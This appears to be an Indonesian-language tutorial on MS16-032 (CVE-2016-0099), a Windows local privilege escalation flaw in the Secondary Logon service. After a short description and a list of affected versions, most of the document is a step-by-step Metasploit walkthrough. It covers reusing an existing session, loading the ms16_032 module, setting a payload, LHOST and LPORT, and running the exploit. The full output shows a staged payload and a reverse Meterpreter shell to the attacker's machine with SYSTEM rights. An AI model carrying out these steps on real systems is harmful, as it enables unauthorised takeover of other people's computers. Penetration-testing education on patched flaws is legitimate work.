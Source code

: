 # MS16-032

## A. Apa itu MS16-032?

[MS16-032](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2016-0099`
- **Buletin Microsoft**: `MS16-032`
- **Tanggal Rilis**: `8 Maret 2016`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- Windows 7
- Windows 8.1
- Windows 10
- Windows Server 2008
- Windows Server 2008 R2
- Windows Server 2012
- Windows Server 2012 R2

Lihat detail lengkapnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS16-032:

   ```
   msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
   [*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
   [*] Compressing script contents...
   [+] Compressed size: 3723
   [*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

   [?] Operating system core count: 2
   [>] Duplicating CreateProcessWithLogonW handle
   [?] Done, using thread handle: 1112

   [*] Sniffing out privileged impersonation token..

   [?] Thread belongs to: svchost
   [+] Thread suspended
   [>] Wiping current impersonation token
   [>] Building SYSTEM impersonation token
   [ref] cannot be applied to a variable that does not exist.
   At line:200 char:59
   +         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
       + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
      n
       + FullyQualifiedErrorId : NonExistingVariableReference
 
   [!] NtImpersonateThread failed, exiting..
   [+] Thread resumed!

   [*] Sniffing out SYSTEM shell..

   [>] Duplicating SYSTEM token
   Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
   em.IntPtr": "Cannot convert null to type "System.IntPtr"."
   At line:259 char:35
   +     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
       + CategoryInfo          : NotSpecified: (:) [], MethodException
       + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
   [>] Starting token race
   [>] Starting process race
   [!] Holy handle leak Batman, we have a SYSTEM shell!!

   EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
   [+] Executed on target machine.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
   [+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
